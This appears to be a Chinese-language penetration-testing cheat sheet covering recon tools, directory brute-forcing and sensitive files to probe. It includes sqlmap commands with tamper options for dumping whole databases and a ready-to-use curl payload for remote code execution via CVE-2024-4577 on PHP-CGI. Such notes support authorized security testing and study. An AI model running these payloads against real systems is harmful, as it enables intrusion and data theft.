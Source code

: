 # Hitmap-ver.1

## 掃描、資訊蒐集

### 工具
  - rustscan
    -  可快速掃出目標開了哪些 Port
    -  Kali 上面沒有，亦無法直接 apt install
    -  安裝 Step
        - Step 1. 複製網址到Kali的瀏覽器進行下載
            ```sh
            https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
            ```
        - Step 2. 開終端機
            ```sh
            cd Downloads
            ls
            ```
        - Step 3. 把下載的檔案開啟權限
            ```sh
            sudo chmod +x rustscan_2.0.1_amd64.deb
            ```
        - Step 4. 安裝他的套件
            ```sh
            sudo dpkg -i rustscan_2.0.1_amd64.deb
            ```
        - Step 5. 完成安裝 or 出現報錯
          - 沒報錯跳過這步 
            ```sh
            sudo apt update
            sudo apt upgrade
            ```
    - **使用方法**
      ```zsh
      rustscan -a ip or domain
      ```
      ![image](https://github.com/Kazusa613732/Hitmap-ver.1/blob/main/img/rustscan1.png)
      
  - nmap
    - **使用方法**
      - 作業系統、服務版本
      ```sh
       nmap -A ip or domain
      ```
      - 指定port
      ```sh
       nmap -A -p22,80,1000 ip
      ```
      - 很多...未來待補
        
  - nuclei
    -  弱掃工具（效果待確）
    -  Kali 上面沒有，可直接 sudo apt install nuclei
    -  **使用方法**
      ```sh
      nuclei -u url 
      ```
  - Wappalyzer（Chrome插件）
    -  可以看到網站是用那些框架、套件、部分版本
  - DotGit（Chrome插件）
    -  可以偵測到有沒有.git洩漏
    -  有的話，可以透過 Kali 安裝 Githack 來查看
    -  安裝
       ```sh
       git clone https://github.com/lijiejie/GitHack.git
       ```
    -  **使用方法**
      ```sh
      python Githack.py URL/.git
      ```
## 目錄爆破

### 工具
  - dirsearch
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install dirsearch
      ```
    - **使用方法**
      ```sh
       dirsearch -u "url"
      ```
  - gobuster
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install gobuster
      ```
    - **使用方法**
      - 待補
### 不該出現的頁面
  - .env
  - phpinfo
  - .git
  - CKfinder
  - cgi-bin
  - upload.php（進去看有沒有可以try的點）
  - login.php（進去看有沒有可以try的點）
  - .svn
  - etc..
  - 感覺奇怪的都去看

## Injection
### CRLF injection
  - [筆記](https://www.notion.so/CRLF-Injection-1b9997876c1380e4bc7cccad27ecd62f?pvs=4)
### SQL injection
  - [筆記](https://www.notion.so/SQL-Injection-1ba997876c138098bed3c44d005558b3?pvs=4)
  - 最最基本檢測方式
    - 在參數後輸入'進行測試，出現報錯、500error，基本上可以直接用SQLmap進行確認了
    - 利用不同編碼bypass
    - 'AND1=1，可測錯誤注入、盲注
  - SQLmap
    - **指令**
      ```sh
      #可以dump出所有資料庫名稱
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash --dbs
      #可以dump某一資料庫的資料表
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 --tables
      #可以dump出某一資料庫、資料表的欄位
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 --columns
      #可以dump出某一資料庫、資料表的欄位內容
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 -C c欄,c欄 --dump
      #其他參數
      --delay 1（延遲一秒）、--level 1~5、--risk 1~5（更多注入手段會更久）
      ```
  ### XSS
  ## CVE 2024-4577
  - 此弱點影響安裝於 Windows 作業系統上所有的 PHP 版本
    - PHP 8.3 < 8.3.8
    - PHP 8.2 < 8.2.20
    - PHP 8.1 < 8.1.29
  - 常見之 Apache HTTP Server 加上 PHP 組合
  - 所有版本的 XAMPP for Windows 安裝也預設受此弱點影響
  - **Payload&RCE**
    ```sh
    curl -o - "URL/php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input" --data '<?=`whoami & dir`;die();?>'
    ```



